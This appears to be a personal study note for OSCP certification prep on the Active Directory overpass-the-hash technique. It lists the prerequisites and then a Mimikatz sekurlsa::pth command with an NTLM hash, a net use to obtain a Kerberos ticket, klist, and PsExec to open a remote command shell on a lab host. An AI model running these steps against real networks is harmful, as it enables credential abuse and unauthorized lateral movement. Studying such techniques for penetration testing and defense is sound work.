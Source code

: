 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/14-active-directory-movement/4-overpass-the-hash/","updated":"2024-01-05T11:37:00.706+01:00"}
---
```


----------
- Use NTLM user hash to gain full Kebreros Ticket Grantin Ticket (TGT), and then obtain Ticket Granting Service (TGS)
- Allows to pass NTLM hash to run services that requires Kerberos instead
- Requires:
	- Local admin privileges
	- NTLM hash of user

----------
### Overpass-the-Hash Remote Shell using Mimikatz:
1. Run Mimikatz and enable debug.
2. Create TGT:
```
sekurlsa::pth /user:<targetuser> /domain:<domain> /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
```
3. Obtain ticket by authenticating to network share:
```
net use \\files04
```
4. Analyze ticket:
```
klist
```
5. Run PsExec and launch cmd using ticket:
```
.\PsExec.exe \\files04 cmd
```

